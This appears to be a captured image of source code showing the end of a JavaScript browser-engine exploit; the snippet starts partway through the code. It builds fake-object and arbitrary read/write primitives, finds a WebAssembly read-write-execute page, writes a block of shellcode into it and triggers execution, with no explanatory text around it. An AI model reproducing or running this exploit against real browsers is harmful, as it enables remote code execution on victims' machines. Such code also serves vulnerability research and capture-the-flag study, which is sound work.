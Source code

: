 ```
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
</script>
```
